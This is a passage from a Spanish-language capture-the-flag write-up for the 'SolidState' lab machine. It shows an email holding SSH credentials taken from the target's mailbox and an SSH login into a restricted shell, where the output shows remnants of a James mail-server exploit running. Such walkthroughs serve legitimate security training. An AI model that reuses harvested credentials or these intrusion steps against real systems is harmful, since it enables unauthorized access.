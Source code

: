 ```bash
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>; 
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James

.
```

De acuerdo con el contenido de los correo, vemos unas credenciales de acceso por el servicio SSH, así que vamos a guardarlas y probarlas:

```bash
❯ ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.51' (ECDSA) to the list of known hosts.
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
-rbash: $'\254\355\005sr\036org.apache.james.core.MailImpl\304x\r\345\274\317ݬ\003': command not found
-rbash: L: command not found
-rbash: attributestLjava/util/HashMap: No such file or directory
-rbash: L
         errorMessagetLjava/lang/String: No such file or directory
-rbash: L
         lastUpdatedtLjava/util/Date: No such file or directory
-rbash: Lmessaget!Ljavax/mail/internet/MimeMessage: No such file or directory
-rbash: $'L\004nameq~\002L': command not found
-rbash: recipientstLjava/util/Collection: No such file or directory
-rbash: L: command not found
-rbash: $'remoteAddrq~\002L': command not found
-rbash: remoteHostq~LsendertLorg/apache/mailet/MailAddress: No such file or directory
-rbash: $'L\005stateq~\002xpsr\035org.apache.mailet.MailAddress': command not found
```